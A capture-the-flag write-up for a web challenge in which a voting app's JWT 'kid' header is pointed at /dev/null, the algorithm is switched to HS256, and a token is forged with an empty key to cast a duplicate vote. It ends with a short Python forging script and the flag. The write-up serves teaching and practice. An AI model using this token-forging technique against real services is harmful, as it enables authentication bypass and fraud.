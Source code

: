 # The voting logs ain't making sense - web

## Challenge

A paranormal event was observed during the voting. Apparently multiple successful vote submissions were starting to be observed in the logs for an individual and votes for citizens that don't exist? Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT1337 who has already voted?

## Solve

Observing the code base we can see:

- We can generate a JWT with values of our choosing with the admin API `generate_qr_code()`:

```py
@admin_bp.route("/generate-qr", methods=["POST"])
@require_polling_key
def generate_qr_code():
    try:
        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        citizen_id = data.get("citizen_id")
        name = data.get("name")
        state = data.get("state")

        if not all([citizen_id, name, state]):
            return jsonify({"error": "Missing required fields: citizen_id, name, state"}), 400

        db = Database()
        if db.citizen_has_voted(citizen_id):
            return jsonify({"error": f"Citizen '{citizen_id}' has already voted"}), 400

        token = create_jwt_token(citizen_id, name, state, current_app.config["JWT_PRIVATE_KEY_PATH"])
        qr_code_base64 = generate_qr_image(token)

        return jsonify({
            "qr_code": qr_code_base64,
            "token": token
        })

    except Exception as e:
        return jsonify({"error": f"Failed to generate QR code: {str(e)}"}), 500
```

However, if we attempt to generate a JWT for `CIT1337`, we run in to `db.citizen_has_voted()`:

```py
def citizen_has_voted(self, citizen_id):
        conn = self.get_connection()
        try:
            cursor = conn.cursor()
            cursor.execute("SELECT * FROM votes WHERE citizen_id=?", (citizen_id,))
            rows = cursor.fetchall()
            
            return len(rows) != 0
        except Exception as e:
            raise e
        finally:
            conn.close()
```

- We can submit votes with `submit_vote()` using the voting API `/submit-vote` endpoint:

```py
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401
            
        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401
            
        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400
            
        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400
            
        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")
        
        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401
            
        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)
        
        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }
```

The key here is that `citizen_has_voted()` is never called in `subbmit_vote()` - meaning that if we can obtain a valid JWT for `CIT1337`, `submit_vote()` will process it without checking if a duplicate exists.

In `create_jwt_token()` we can see that the key id or `kid` header parameter is included and points the server towards the public key file to use when verifying signatures:

```py
def create_jwt_token(citizen_id, name, state, private_key_path):
    payload = {
        "citizenId": citizen_id,
        "name": name,
        "state": state,
        "vote_identifier": os.urandom(32).hex(),
        "iat": int(datetime.now().timestamp()),
        "exp": int((datetime.now() + timedelta(hours=24)).timestamp())
    }

    headers = {}
    # Public keys don"t have an extension while private key does. Kid value will be public key.
    public_key_path = private_key_path.replace(".priv", "")
    headers["kid"] = public_key_path
    key_file_path = private_key_path

    with open(key_file_path, "r") as key_file:
        private_key = key_file.read()

    token = jwt.encode(
        payload,
        private_key,
        algorithm="RS256",
        headers=headers
    )

    return token
```

This [blog post](https://www.vaadata.com/blog/jwt-json-web-token-vulnerabilities-common-attacks-and-security-best-practices/) describes how a user controlled `kid` parameter can lead to vulnerabilities if there is file upload / known files on the local server. Since we don't know whether file upload is possible, we:
- Generate a valid JWT with any values using `generate-qr()` 
- Decode the JWT, changing:
  -  `kid` header parameter to `/dev/null`
  -  `alg` header parameter to a symmetric algorithm (e.g `HS256`) 
  -  `citizen_id` to `CIT1337`
- Create a new JWT with the updated values and sign with an empty key:

```py
import jwt

payload = {
  "citizenId": "CIT1337",
  "name": "any",
  "state": "any",
  "vote_identifier": "fc2396184b4111ebd7c280fcaf58a54884230dd4a42924f48643fc45e3c25ee3",
  "iat": 1754193048,
  "exp": 1754279448
}
headers = { "kid": "/dev/null", "alg": "HS256" }

token = jwt.encode(payload, key='', algorithm='HS256', headers=headers)
print(token)
```

Now, if the server attempts to validate the JWT with `/dev/null` as the key, and it matches, it will decode the JWT with an empty string and consider our forged JWT valid. And it works!

`cysea{you_got_to_be_KIDding_me_b60c85395d}`